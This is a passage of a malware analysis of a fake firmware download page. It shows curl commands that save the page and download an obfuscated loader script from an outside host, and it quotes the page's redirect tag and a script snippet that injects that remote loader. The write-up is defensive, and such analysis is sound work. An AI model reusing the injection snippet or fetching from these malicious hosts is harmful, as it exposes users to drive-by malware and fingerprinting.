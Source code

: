 ```bash
# Save page source and capture verbose trace (safe; does not execute JS)
curl -v -L --max-redirs 20 "https://gofirmware.com/downloads/pxie-8880-firmware" -o gofirmware_page.html 2> curl_trace.txt

# Inspecting headers quickly
curl -I -L "https://gofirmware.com/downloads/pxie-8880-firmware"

# Downloading the external loader referenced in the page (protocol-relative -> https)
curl -sS -o mw.min.js "https://hoksomuptak.net/0c5/9cac6/mw.min.js?z=8643282&sw=/sw-check-permissions-80925.js"

# Inspecting the start of the downloaded loader (safe, static)
head -n 200 mw.min.js

# Static decoding 
node deobfuscate.js
node reconstruct_urls.js
```

(You can find the Node scripts I used earlier — they parse the mapping object inside `mw.min.js`, apply the Caesar-style decode seen in the obfuscated code, and produce decoded key/value pairs and reconstructed URLs. Those scripts only decode strings and never `eval` or run remote fetches.)



## 4 — What the initial HTML contained (static observation)

From `gofirmware_page.html` (`loading-page`):

- A **meta refresh**:
    
    ```html
    <meta http-equiv="refresh" content="5;url=https://ak.inazumarillom.com/4/8643286?var=mfa">
    ```
    
    → Redirects client after 5 seconds.
    
- An **inline script** that:
    
    - Contains obfuscated code that reconstructs a query string using `navigator.userAgentData` (if present).
        
    - Builds a URL and executes `window.location.replace(...)` with those appended parameters.
        
    - Injects an external script via:
        
        ```js
        s.src='//hoksomuptak.net/0c5/9cac6/mw.min.js?z=8643282' + '&sw=/sw-check-permissions-80925.js';
        document.head.appendChild(s);
        ```
        
    - Yandex Metrika analytics snippet (tracking) was present.
        

**Interpretation:** the page tries to ensure a redirect occurs (meta refresh + JS). The JS collects browser fingerprint info and loads an external, obfuscated loader. The external loader (mw.min.js) is the real workhorse.
